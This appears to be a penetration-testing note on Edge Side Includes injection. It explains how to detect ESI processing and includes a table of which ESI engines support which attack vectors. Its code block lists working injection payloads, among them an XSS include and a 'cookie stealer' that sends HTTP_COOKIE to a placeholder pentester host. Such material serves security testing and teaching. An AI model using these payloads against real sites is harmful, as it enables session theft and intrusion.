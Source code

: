 # Description
Edge Side Includes (`ESI`) is an XML-based markup language used to tackle performance issues by enabling heavy caching of Web content, which would be otherwise unstorable through traditional caching protocols. Edge Side Includes (ESI) allow for dynamic web content assembly at the edge of the network (Content Delivery Network, User's Browser, or Reverse Proxy) by instructing the page processor what needs to be done to complete page assembly through ESI element tags (XML tags).

Although we can identify the use of ESI by inspecting response headers in search for `Surrogate-Control: content="ESI/1.0"`, we usually need to use a blind attack approach to detect if ESI is in use or not. Specifically, we can introduce ESI tags to HTTP requests to see if any intermediary proxy is parsing the request and if ESI Injection is possible. Some useful ESI tags are:

# ESI Tags

```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

In some cases, we can achieve remote code execution when the application processing ESI directives supports XSLT, a dynamic language used to transform XML files. In that case, we can pass `dca=xslt` to the payload. The XML file selected will be processed with the possibility of performing XML External Entity Injection Attacks (XXE) with some limitations.

[GoSecure](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) has created a table to help us understand possible attacks that we can try against different ESI-capable software, depending on the functionality supported. Let us provide some explanations regarding the column names of the below table first:

- Includes: Supports the `<esi:includes>` directive
- Vars: Supports the `<esi:vars>` directive. Useful for bypassing XSS Filters
- Cookie: Document cookies are accessible to the ESI engine
- Upstream Headers Required: Surrogate applications will not process ESI statements unless the upstream application provides the headers
- Host Allowlist: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

|**Software**|**Includes**|**Vars**|**Cookies**|**Upstream Headers Required**|**Host Whitelist**|
|:-:|:-:|:-:|:-:|:-:|:-:|
|Squid3|Yes|Yes|Yes|Yes|No|
|Varnish Cache|Yes|No|No|Yes|Yes|
|Fastly|Yes|No|No|No|Yes|
|Akamai ESI Test Server (ETS)|Yes|Yes|Yes|No|No|
|NodeJS esi|Yes|Yes|Yes|No|No|
|NodeJS nodesi|Yes|No|No|No|Optional|
